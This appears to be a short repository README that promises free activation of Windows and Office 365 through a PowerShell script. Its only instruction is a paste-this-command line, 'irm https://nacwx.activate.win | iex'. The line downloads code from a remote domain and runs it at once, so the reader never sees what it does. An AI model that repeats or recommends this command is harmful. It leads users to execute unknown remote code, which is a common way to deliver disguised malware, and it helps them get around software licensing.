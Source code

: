 # activate-script
Activate Windows, Office 365 free.
# Activate-Script

PowerShell script to activate Windows and Office 365.

To run the script, open PowerShell and type:

```powershell
irm https://nacwx.activate.win | iex

